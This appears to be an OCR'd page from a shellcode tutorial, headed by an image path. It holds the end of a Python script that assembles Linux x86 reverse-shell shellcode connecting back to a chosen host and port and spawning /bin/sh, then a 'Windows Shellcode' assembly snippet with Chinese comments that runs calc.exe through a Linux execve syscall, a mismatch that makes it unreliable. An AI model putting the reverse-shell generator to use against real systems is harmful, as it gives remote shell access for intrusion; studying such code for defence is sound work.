 ```python
    if "00" in pl:
        print (YELLOW + "port will cause null bytes to be in shellcode :(" + ENDC)
    p1, p2 = pl

    shellcode_port = "\\x" + p1 + "\\x" + p2
    print (YELLOW + "hex port: x" + p1 + "x" + p2 + ENDC)

    shellcode = "\\x6a\\x66\\x58\\x6a\\x01\\x5b\\x31"
    shellcode += "\\xd2\\x52\\x53\\x6a\\x02\\x89\\xe1\\xcd\\x80\\x92\\xb0\\x66\\x68"
    shellcode += shellcode_host
    shellcode += "\\x66\\x68"
    shellcode += shellcode_port
    shellcode += "\\x43\\x66\\x53\\x89\\xe1\\x6a\\x10"
    shellcode += "\\x51\\x52\\x89\\xe1\\x43\\xcd"
    shellcode += "\\x80\\x6a\\x02\\x59\\x87\\xda\\xb0"
    shellcode += "\\x3f\\xcd\\x80\\x49\\x79\\xf9"
    shellcode += "\\xb0\\x0b\\x41\\x89\\xca\\x52\\x68"
    shellcode += "\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\xcd\\x80"

    print (GREEN + "your super shellcode is:" + ENDC)
    print (GREEN + shellcode + ENDC)

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument('-l','--lhost',
                         required = True, help = "local IP",
                         default = "127.1.1.1", type = str)
    parser.add_argument('-p','--lport',
                         required = True, help = "local port",
                         default = "4444", type = str)
    args = vars(parser.parse_args())
    host, port = args['lhost'], args['lport']
    my_super_shellcode(host, port)
```

### Windows Shellcode

Shellcode.asm
```asm
section .text
global _start

_start:
    ; 清除RAX寄存器
    xor rax, rax

    ; 将字符串"calc.exe"压入堆栈
    push rax
    mov rbx, 0x6578652e636c6163
    push rbx
    mov rdi, rsp

    ; 设置寄存器
    xor rsi, rsi          ; RSI为空
    xor rdx, rdx          ; RDX为空

    ; 调用execve
    mov al, 0x3b          ; 系统调用号：execve
    syscall
```
